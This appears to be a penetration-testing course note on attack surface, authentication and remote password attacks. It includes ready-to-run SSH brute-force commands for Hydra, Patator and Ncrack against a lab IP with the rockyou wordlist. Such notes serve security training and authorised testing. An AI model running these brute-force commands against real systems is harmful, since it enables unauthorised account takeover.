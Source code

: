 - **Intranet**
  Inside the internet firewall

### Complexity

- **Coding skills**
  - C
  - Java
  - Php
  - Others
- **State**
- **Decryption or decoding required**

### What about Authentication

- Is it required?
- Data analysis should reveal potential password attack vectors
  - Ssh
  - Smb
  - rdp
- Most web apps need authentication

### You do not Always have to run an Exploit to own the box!

- Have you ever configured a router and made a mistake?
- We can always get access because of admin errors etc.
- Services can be brute forced!

### Remote Password Attack

**1. Hydra is the tool of choice**

- Can attack most of the desired services

  ```
  hydra -e nsr -L sqlmap.txt 192.168.177.200 ssh -t 4
  hydra -l jason -P /usr/share/wordlists/rockyou.txt <IP> <protocol>
  ```

**2. Patator**

  ```
patator ssh_login host=192.168.177.200 user=root password=FILE0 0=/usr/share/wordlists/rockyou.txt
  ```

![image-20210825175107215](/home/sherwinowen/Documents/my_tutorials/CPENT/images/image-20210825175107215.png)

**3. Ncrack**

```
ncrack -v --user sys -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

![image-20210825175221641](/home/sherwinowen/Documents/my_tutorials/CPENT/images/image-20210825175221641.png)
